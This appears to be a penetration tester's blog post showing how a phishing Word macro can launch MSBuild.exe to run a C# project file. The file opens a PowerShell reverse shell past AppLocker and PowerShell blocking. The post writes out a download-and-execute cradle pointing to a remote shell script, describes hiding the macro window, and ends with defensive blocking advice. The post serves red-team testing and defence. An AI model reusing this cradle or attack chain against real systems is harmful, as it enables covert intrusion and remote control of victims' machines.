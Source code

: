 ```yaml
---
layout: post
title: MSBuild AppLocker Bypass Phishing Payload
published: true
---
```

![msbuild]({{ site.url }}/images/msbuild-csproj.png){: .center-image }

### With regular external vulnerability scans and (hopefully) pentration tests being undertaken, the perimeter is typically not the easy route into an organisation.

People click, and so simulated phishing campaigns and user awareness training are extremely important. However, there can never be complete assurance against credential divulgence or execution of malicious code via crafted (or not so crafted) phishing attacks, and so it is critical that organisations implement a multi-layered "defence in depth" strategy. Application whitelisting is an important component of such a strategy, and is an effective means of ensuring that only approved applications can run.

AppLocker is a commonly used whitelisting technology and is built into Windows. The default AppLocker rules for Windows 10 are listed below.

![rules]({{ site.url }}/images/applocker-default-rules.png){: .center-image }

Since Powershell has gained recognition for being the attackers language of choice, many organisations are [increasingly] additionally blocking it. However, blocking powershell.exe is often not sufficient and there are many methods by which PowerShell can be instantiated to send a reverse shell reaching out of the organisation to an attacker.

The post will document one such method, with the "misplaced trust binary" (as Casey Smith puts it) MSBuild.exe. In this scenario, the company has enabled AppLocker with default rules and has also blocked Powershell.

![rules]({{ site.url }}/images/applocker-rules.png){: .center-image }

We can pass a ".csproj" (Visual Studio .NET C# Project file) to MSBuild and have it execute C# and instantiate a Powershell runspace using the System.Management.Automation.dll assembly. The powashell.csproj file below by Casey Smith ([@SubTee](https://twitter.com/subtee)) builds upon Jared Atkinson's ([@jaredcatkinson](https://twitter.com/jaredcatkinson)) and Justin Warner's ([@sixdub](https://twitter.com/sixdub)) work.

<script src="https://gist.github.com/egre55/7a6b6018c9c5ae88c63bdb23879df4d0.js"></script>

This executes the second (and final) stage of the payload via a PowerShell 3.0+ download cradle:

`pipeline.Commands.AddScript("IEX (iwr 'http://10.10.10.10/shell.ps1')");`

Shell.ps1:

<script src="https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3.js"></script>

Good. Now we need a means of delivering the project file and executing MSBuild. The macro below will do just this.

<script src="https://gist.github.com/egre55/563159175f8d6c1d31d7f3af77357549.js"></script>

The `WindowType` parameter of the Shell function has been set to `vbHide` in order to avoid calling attention to our activities. Now, in order to stand a chance of the macro being executed, we need to dress the document appropriately.

John Lambert ([@JohnLaTwC](https://twitter.com/johnlatwc)) regularly shares interesting phishing lures and payloads, if you need inspiration for your simulated phishing campaigns. The "Document created in newer/older Office version" lure is one I find especially convincing. John has also put together [this](https://t.co/OwH28ltngy) compendium of macro based lures, which is great for educating users about the different techniques attackers use.

Our FailedPayment.doc lure:

![lure]({{ site.url }}/images/phishing-lure.png){: .center-image }

Now that our "malicious" document has been created we can test it out.

Once the user opens the document and enables macros, the powashell.csproj is downloaded for MSBuild to execute, which in turn downloads and executes the Powershell reverse shell one-liner. All completely invisible to the user.

![rules]({{ site.url }}/images/shell.png){: .center-image }

We can see that this payload is also an effective means of bypassing PowerShell Contrained Language mode.

This is not a particularly stealthy attack as the .csproj is written to disk, and no attempt was made to obfuscate any part of the payload.

Hopefully, this example highlights the danger of "misplaced trust" binaries such as MSBuild. Companies should block their use unless explicitely required for certain users (e.g. developers). Oddvar Moe ([@Oddvarmoe](https://twitter.com/oddvarmoe)) maintains an excellent [collection](https://github.com/api0cradle/UltimateAppLockerByPassList) of AppLocker bypass techniques, which is a good list of the "misplaced trust" binaries that IT departments should consider blocking.

If possible, companies should also block macros for users who don't need this functionality. Additionally, if a company has decided to block PowerShell using Application Whitelisting, then the following PowerShell binaries and assemblies should be part of the block list.

<script src="https://gist.github.com/egre55/61b6cd2b23b605e6a017e81e5cb97f3e.js"></script>

However, there are multiple methods an attacker could use to instantiate a Powershell runspace, for example by downloading a custom binary. In which case, Defenders could respond by...

... and so the back and forth attacker/defender dance continues :)





